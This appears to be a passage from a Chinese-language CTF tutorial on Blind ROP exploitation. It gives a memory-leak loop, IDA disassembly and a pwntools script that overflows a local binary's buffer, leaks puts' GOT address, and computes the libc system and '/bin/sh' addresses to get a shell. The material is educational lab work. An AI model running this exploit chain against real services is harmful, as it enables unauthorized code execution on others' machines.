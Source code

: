 ```plain
##stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4006c0
##brop_gadget = find_brop_gadget(buffer_length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = GetPutsPlt(buffer_length, rdi_ret, stop_gadget)
puts_plt_addr = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(buffer_length, rdi_ret, puts_plt_addr, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

```plain
seg000:0000000000400555                 or      bh, bh
seg000:0000000000400557                 and     eax, 0A200AB4h
seg000:000000000040055C                 nop     dword ptr [rax+0Ah]
seg000:0000000000400560                 jmp     qword ptr cs:0A601018h#puts函数的got地址
```

具体 IDA 操作方法见链接：[https://www.freesion.com/article/32791039584/#\_1](https://www.freesion.com/article/32791039584/#_1)

7、通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

p = process('./brop')

buffer_length   = 72
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9
puts_plt_addr = 0x400555
puts_got_addr = 0x601018

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr)
payload += p64(stop_gadget)

p.sendline(payload)
puts_addr = u64(p.recvuntil('\nWelCome my friend', drop=True).ljust(8, '\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')

#####################################################

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
```
